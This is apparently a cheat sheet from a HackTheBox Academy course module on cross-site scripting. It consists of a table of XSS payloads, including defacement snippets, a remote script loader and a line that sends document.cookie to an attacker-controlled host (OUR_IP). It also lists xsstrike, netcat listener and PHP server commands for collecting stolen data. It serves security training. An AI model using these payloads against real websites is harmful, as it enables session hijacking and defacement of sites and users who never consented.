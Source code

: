 The cheat sheet is a useful command reference for this module.

## Commands

| Code                                                                                                | Description                               |
| --------------------------------------------------------------------------------------------------- | ----------------------------------------- |
| **XSS Payloads**                                                                                    |                                           |
| `<script>alert(window.origin)</script>`                                                             | Basic XSS Payload                         |
| `<plaintext>`                                                                                       | Basic XSS Payload                         |
| `<script>print()</script>`                                                                          | Basic XSS Payload                         |
| `<img src="" onerror=alert(window.origin)>`                                                         | HTML-based XSS Payload                    |
| `<script>document.body.style.background = "#141d2b"</script>`                                       | Change Background Color                   |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`       | Change Background Image                   |
| `<script>document.title = 'HackTheBox Academy'</script>`                                            | Change Website Title                      |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                      | Overwrite website's main body             |
| `<script>document.getElementById('urlform').remove();</script>`                                     | Remove certain HTML element               |
| `<script src="http://OUR_IP/script.js"></script>`                                                   | Load remote script                        |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                     | Send Cookie details to us                 |
| **Commands**                                                                                        |                                           |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                                 | Run `xsstrike` on a url parameter         |
| `sudo nc -lvnp 80`                                                                                  | Start `netcat` listener                   |
| `sudo php -S 0.0.0.0:80`                                                                            | Start `PHP` server                        |
| https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss           | XSS Payloads from PayloadsAllTheThings    |
| https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc | XSS Data Grabber Payload (session cookie) |
